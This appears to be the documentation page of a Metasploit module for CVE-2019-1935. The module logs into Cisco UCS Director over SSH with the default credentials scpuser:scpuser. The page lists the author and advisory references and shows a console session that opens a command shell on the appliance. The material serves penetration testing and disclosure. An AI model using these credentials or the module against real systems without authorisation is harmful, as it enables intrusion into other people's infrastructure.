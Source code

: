 ## Intro

This module abuses a known default password on Cisco UCS Director. The 'scpuser'
has the password of 'scpuser', and allows an attacker to login to the virtual appliance
via SSH (aka CVE-2019-1935).

This module has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-usercred
https://seclists.org/fulldisclosure/2019/Aug/36
https://raw.githubusercontent.com/pedrib/PoC/master/advisories/cisco-ucs-rce.txt


## Usage

Setup RHOST and run it!

```
msf5 exploit(linux/http/cisco_ucs_rce) > use exploit/linux/ssh/cisco_ucs_scpuser
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > run

[*] 10.9.8.121:22 - Attempt to login to the Cisco appliance...
[+] 10.9.8.121:22 - Login Successful (scpuser:scpuser)

[*] Found shell.
[*] Command shell session 1 opened (10.9.8.1:38113 -> 10.9.8.121:22) at 2019-08-29 22:27:42 +0700

whoami
scpuser
^C
Abort session 1? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 1 closed.  Reason: User exit
```
